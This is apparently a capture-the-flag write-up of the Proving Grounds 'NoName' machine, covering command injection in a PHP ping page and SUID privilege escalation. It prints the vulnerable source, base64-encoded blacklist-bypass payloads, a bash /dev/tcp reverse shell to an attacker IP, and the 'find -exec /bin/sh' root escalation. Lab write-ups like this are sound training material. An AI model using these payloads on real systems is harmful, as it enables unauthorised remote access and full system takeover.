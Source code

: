 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil2.png
---
```


Easy rated Proving Grounds Play machine that covers command injection and SUID privesc. 

<!--more-->


## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

I started with my usual enumeration of http with Nikto and Gobuster. Nikto did not return anthing interesting while Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures posted with no functionality
    - `superadmin.php` looks more interesting as looks like there is a ping functionality that we can play with.


![admin](\assets\images\noname-pg\2022-07-27-15-23-21.png)

![superadmin](\assets\images\noname-pg\2022-07-27-15-41-18.png)

Intercepting the request with burp we can see two parameters `pinger` and `submitt`. `pinger` looks really interesting and is screaming command injection :p

![](\assets\images\noname-pg\2022-07-27-15-42-17.png)

Trying command injection with `sleep` command. I tried `;` and `&` but did not work, while trying `|` worked

![](\assets\images\noname-pg\2022-07-27-15-43-36.png)

As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command resulting to a five second delay in the response. 

Now that we have confirmed the command injection vulnerability we can now try some basic [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I tried the bash, nc, and python payloads but nothing worked. I also tried `ls`, `pwd`, and `cat /etc/passwd` but it also did not return anything, so I tried `cat superadmin.php` and the response returned the following:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

Looks like there are blacklisted characters and commands, that's why we can't `ls` and `cat /etc/passwd`. From here I thought we can try try echoing a base64 encoded command then pipe it to `base64 -d` then to `bash`. Something like the following:
```bash
echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`
```

![](\assets\images\noname-pg\2022-07-27-16-26-33.png)

And it worked, so I tried with a reverse shell 

```bash
bash -i >& /dev/tcp/192.168.49.210/80 0>&1
```
    
For some reason the following base64 encoded reverse shell payload still did not work:

> ```bash
> |echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash
> ``` 

Which is really weird not sure why. So to troubleshoot I tried removing the last `|bash` part in my payload so it will print the base64 decoded payload instead of executing it with bash, and I got the following response
           
![](\assets\images\noname-pg\2022-07-27-16-48-44.png)

Looks like it is not printing the whole base64 encoded command. not sure why but that's the reason our reverse shell is not getting executed properly. From here I tried double `base64` encoding my payload and it worked 

```bash
|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`
```

![](\assets\images\noname-pg\2022-07-27-16-46-09.png)

## Privesc


- Now we have a shell as `www-data` first thing I check usually is the `SUIDs`. I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](\assets\images\noname-pg\2022-07-27-16-52-16.png)

- Using the following command `find . -exec /bin/sh \; -quit` gave us root access to the box.

![](\assets\images\noname-pg\2022-07-27-16-54-22.png)

